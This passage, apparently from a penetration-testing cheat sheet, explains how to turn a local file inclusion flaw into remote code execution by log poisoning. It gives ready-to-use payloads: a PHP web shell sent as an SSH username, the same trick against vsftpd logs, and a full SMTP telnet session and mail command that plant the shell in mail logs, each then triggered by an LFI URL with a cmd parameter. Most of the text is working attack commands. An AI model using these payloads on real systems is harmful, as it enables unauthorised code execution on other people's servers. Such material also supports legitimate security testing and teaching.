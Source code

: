 #### RCE via SSH

Try to ssh into the box with a PHP code as username `<?php system($_GET["cmd"]);?>`.

```
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

Then include the SSH log files inside the Web Application.

```
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

### **Via** **vsftpd** _**logs**_

The logs of this FTP server are stored in _**/var/log/vsftpd.log.**_ If you have a LFI and can access a exposed vsftpd server, you could try to login setting the PHP payload in the username and then access the logs using the LFI

![](../../../.gitbook/assets/2022-08-13\_13-51.png)

#### RCE via Mail

First send an email using the open SMTP then include the log file located at `http://example.com/index.php?page=/var/log/mail`.

```
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

In some cases you can also send the email with the `mail` command line.

```
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```
